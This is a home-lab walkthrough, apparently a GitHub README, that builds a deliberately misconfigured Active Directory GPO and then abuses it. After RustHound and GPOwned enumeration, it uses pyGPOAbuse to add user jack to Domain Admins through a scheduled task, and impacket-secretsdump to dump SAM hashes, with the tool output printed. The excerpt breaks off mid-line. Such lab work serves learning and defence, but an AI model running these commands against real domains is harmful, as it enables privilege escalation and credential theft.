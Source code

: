 # 🔐 GPO Abuse

## What is a GPO?

A **Group Policy Object** is a set of rules in Windows AD used by Domain Admins to:

- Manage settings on computers and users (e.g., password policies, startup scripts, firewall rules).
- Push software or configurations to all machines in a domain.

These policies are linked to **OUs (Organizational Units)** in AD and apply automatically.

### Example of GPO

Suppose the admin wants to remove the Recycle Bin icon from the desktop. By enabling the corresponding Group Policy, the desktop icon will be removed automatically.

## What is GPO Abuse? 

**GPO abuse** refers to **abusing Group Policy Objects (GPOs)** in a Windows Active Directory (AD) environment to gain elevated privileges, maintain persistence, or move laterally across systems.

---


##  Setting Up Misconfigurations Exploit GPO 

### 1. Create a New Organizational Unit (OU)

Open **Active Directory Users and Computers**:

- Right-click on your domain
- Select **New** → **Organizational Unit**

<img src="Imgs/image1.png" alt="Creating OU - Step 1"/>
<img src="Imgs/image2.png" alt="Creating OU - Step 2"/>

---

### 2. Create a New GPO Named "Bad GPO"

Open **Group Policy Management** and:

- Right-click on the domain or the OU
- Select **Create a GPO in this domain, and Link it here...**
- Name it **Bad GPO**

<img src="Imgs/image3.png" alt="Creating GPO - Step 1"/>
<img src="Imgs/image4.png" alt="Creating GPO - Step 2"/>

---

### 3. Delegate Permissions to a User

Go to the **Delegation** tab in your newly created GPO:

- Click **Add**
- Choose the user you want to delegate (e.g., `jack`)

<img src="Imgs/image5.png" alt="Delegating User - Step 1"/>
<img src="Imgs/image6.png" alt="Delegating User - Step 2"/>

Then:

- Click **OK**
- Set the user's permission to **Edit settings**

<img src="Imgs/image7.png" alt="Setting Permissions"/>

---

### 4. Link GPO to Target OU

Finally, move or link the **Bad GPO** to the **AI_Dep** OU.

<img src="Imgs/image8.png" alt="Linking GPO to OU"/>


##  Enumeration

To begin enumeration, we use **RustHound**:

```bash
rusthound -d furious.local -u jack@furious.local -p 'complex1@' -f $IP -i $IP -z -o rusthound
````


After analyzing the output in **BloodHound**, we discover that the user `jack` has **GenericWrite** permissions on the **Bad GPO**.

<img src="Imgs/image9.png" alt="GenericWrite Permission on GPO"/>

This permission allows us to **modify the GPO**, which we can use to **add ourselves to the Domain Admins group**.

---

###  GPO Abuse Utilities

To exploit GPO misconfigurations, we can use any of the following tools:

* [pyGPOAbuse (Python)](https://github.com/Hackndo/pyGPOAbuse)
* [GPOwned (Python)](https://github.com/X-C3LL/GPOwned)




##  GPOwned vs pyGPOAbuse

> **Note:** We use **GPOwned** due to its wide range of features. However, for executing a simple command such as adding ourselves to the **Domain Admins group**, **pyGPOAbuse** is more straightforward.

---

###  Listing GPOs Related to the User

To list GPOs related to the user:

```
python3 GPOwned.py -u jack -p complex1@ -d furious.local -dc-ip 192.168.129.140 -gpcuser -listgpo
```
```
┌──(kali㉿kali)-[~/Home-lab/gpo-abuse/GPOwned]
└─$ python3 GPOwned.py -u jack -p complex1@ -d furious.local -dc-ip 192.168.129.140 -gpcuser -listgpo
                GPO Helper - @TheXC3LL
                Modifications by - @Fabrizzio53


[*] Connecting to LDAP service at 192.168.129.140
[*] Requesting GPOs info from LDAP

[+] Name: {31B2F340-016D-11D2-945F-00C04FB984F9}
        [-] displayName: Default Domain Policy
        [-] gPCFileSysPath: \\furious.local\sysvol\furious.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
        [-] gPCUserExtensionNames: None
        [-] versionNumber: 3
        [-] Verbose: 

[+] Name: {6AC1786C-016F-11D2-945F-00C04fB984F9}
        [-] displayName: Default Domain Controllers Policy
        [-] gPCFileSysPath: \\furious.local\sysvol\furious.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}
        [-] gPCUserExtensionNames: None
        [-] versionNumber: 5
        [-] Verbose: 

[+] Name: {7FB465D4-071E-4C58-9EBB-133086F5BF87}
        [-] displayName: Bad Gpo
        [-] gPCFileSysPath: \\furious.local\SysVol\furious.local\Policies\{7FB465D4-071E-4C58-9EBB-133086F5BF87}
        [-] gPCUserExtensionNames: None
        [-] versionNumber: 0
        [-] Verbose: 

[^] Have a nice day!
```

###  Listing GPOs Related to the Machine

```
python3 GPOwned.py -u jack -p complex1@ -d furious.local -dc-ip 192.168.129.140 -gpcmachine -listgpo
```

###  View GPOs Linked to a Specific OU

To view GPOs linked to a specific OU (`AI_Dep` in this case):

```
python3 GPOwned.py -u jack -p complex1@ -d furious.local -dc-ip 192.168.129.140 -gpcuser -listgplink  -ou AI_Dep
```


##  Abusing GPO with pyGPOAbuse

To abuse the vulnerable GPO and add `jack` to the **Domain Admins** group:


```
┌──(kali㉿kali)-[~/Home-lab/gpo-abuse/pyGPOAbuse]
└─$ python3 pygpoabuse.py 'furious.local'/'jack':'complex1@' -gpo-id "7FB465D4-071E-4C58-9EBB-133086F5BF87" -command '/c net group "Domain Admins" jack /add /domain'
SUCCESS:root:ScheduledTask TASK_e12bc4ec created!
[+] ScheduledTask TASK_e12bc4ec created!

```
###  Optional: Dumping Hashes with SecretsDump

Once we have Domain Admin privileges, we can dump all user hashes:

```
impacket-secretsdump furious.local/jack:'complex1@'@192.168.129.140
```

```
┌──(kali㉿kali)-[~/Home-lab/gpo-abuse/pyGPOAbuse]
└─$ impacket-secretsdump furious.local/jack:'complex1@'@192.168.129.140
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x40dc74d52a81d056f488d800be5a2f7c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:*********51404eeaad3b435b51404ee:***********936fd550482ec578f102e:::
Guest:501:*******51404eeaad3b435b51404ee:**********ae931b73c59d7e0c089c0:::
DefaultAccount:503:*********b51404eeaad3b435b51404ee:*******16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The acc
```















